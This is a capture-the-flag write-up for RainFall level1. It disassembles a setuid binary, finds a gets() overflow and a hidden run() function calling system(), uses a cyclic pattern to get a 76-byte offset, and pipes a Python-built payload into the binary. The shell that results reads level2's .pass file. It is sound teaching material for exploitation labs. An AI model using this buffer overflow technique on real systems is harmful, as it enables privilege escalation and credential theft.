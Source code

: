 # Rainfall

## Level1

```sh
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```sh
level1@RainFall:~$ ./level1 
   
level1@RainFall:~$ 
```
The program is waiting indefinitely and waiting for user input

```sh
level1@RainFall:~$ ./level1 
hello
level1@RainFall:~$ 
```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   # Setting up and align stack

   0x08048486 <+6>:     sub    $0x50,%esp
   # Reserve 0x50 bytes (80 in decimal) on the stack
   
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   # Compute the address of a local buffer at esp + 0x10 (16 in decimal)
   # Since 0x50 bytes (80) are allocated for local variables on the stack
   # 0x50 - 0x10 = 0x40, the buffer likely takes up the remaining space
   # So the buffer size is 64 bytes (0x40)

   0x0804848d <+13>:    mov    %eax,(%esp)
   # Move the buffer to the top of the stack to prepare it as an argument for the upcoming function call
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   # gets(buffer)

   0x08048495 <+21>:    leave  
   0x08048496 <+22>:    ret    
End of assembler dump.
```

Let's see if there is something more in this program

```sh
level1@RainFall:~$ objdump -S level1

level1:     file format elf32-i386
   ...

Disassembly of section .text:
   ...

08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave
 804847f:       c3                      ret

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave
 8048496:       c3                      ret
   ...
level1@RainFall:~$
```

> :memo: **Note:** .Text is where user defined functions are located [https://github.com/compilepeace/BINARY_DISSECTION_COURSE/blob/master/ELF/SECTION_HEADER_TABLE/SECTIONS_DESCRIPTION/SECTIONS_DESCRIPTION.md]

We can see that there is another user defined function called run,
run() is located at 0x08048444 and is calling both fwrite and system

<a name="eip-register-anchor">
Let's try to overflow the buffer used by gets in the main function to access the run function
To do it we need to override the content of the EIP register with the address of run(), EIP register hold the address of the next intruction to be executed by the program

We need to find the exact offset of the EIP register
This can be done using cyclic patterns

Exemple:
```
Imagine we have the same situation with a buffer, a call to gets and the eip register that we need to override

Launch the program with gdb and enter your input string
We entered: "abcdefghijklmnopqrstuvwxyz" and a segfault happened

(gdb) run
Starting program: /home/user/mybinary
abcdefghijklmnopqrstuvwxyz

Program received signal SIGSEGV, Segmentation fault.

We can check the register eip by using this command

(gdb) info registers eip
eip            0x75747372       0x75747372
(gdb)

In the gdb output eip value is shown as a 4-byte unsigned integer, it's little endian memory representation is:
0x72 0x73 0x74 0x75

These values correspond to 'r' 's' 't' 'u'

In the string "abcdefghijklmnopqrstuvwxyz", the substring "rstu" starts at index 17

So in order to exploit mybinary we would need to enter 17 characters in order to reach the EIP register
and then 4 character to represent the targeted address

But the alphabet string won't work in our case because the input buffer is larger than 26
so we need to find a cyclic pattern that can go further than that
```

The script to do this is located at : [cyclic.py](https://github.com/Junya42/RainFall/blob/main/level01/Ressources/cyclic.py)

```sh
junya in ~/projects/42/cybersec/RainFall/level1/Ressources λ python3 cyclic.py 100 
1abc1def1ghi1jkl1mno1pqr1stu1vwx1yza2bcd2efg2hij2klm2nop2qrs2tuv2wxy2zab3cde3fgh3ijk3lmn3opq3rst3uvw
```

```sh
(gdb) run
Starting program: /home/user/level1/level1 
1abc1def1ghi1jkl1mno1pqr1stu1vwx1yza2bcd2efg2hij2klm2nop2qrs2tuv2wxy2zab3cde3fgh3ijk3lmn3opq3rst3uvw

Program received signal SIGSEGV, Segmentation fault.
0x68676633 in ?? ()
(gdb) info registers eip
eip            0x68676633       0x68676633
```

```sh
junya in ~/projects/42/cybersec/RainFall/level1/Ressources λ python3 cyclic.py 100 0x68676633
Needle '3fgh' found at offset: 76
```

Now we need to create the perfect input string in order to exploit the program
Remember we need to target the run() address which is: 0x08048444

```sh
level1@RainFall:~$ (python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" ; cat) | ./level1 
# We first print 76 random characters to reach the EIP offset
# Then we enter the address of our target in little endian format
# We then call cat to retrieve our input string and pipe it to the program

Good... Wait what?
pwd
/home/user/level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```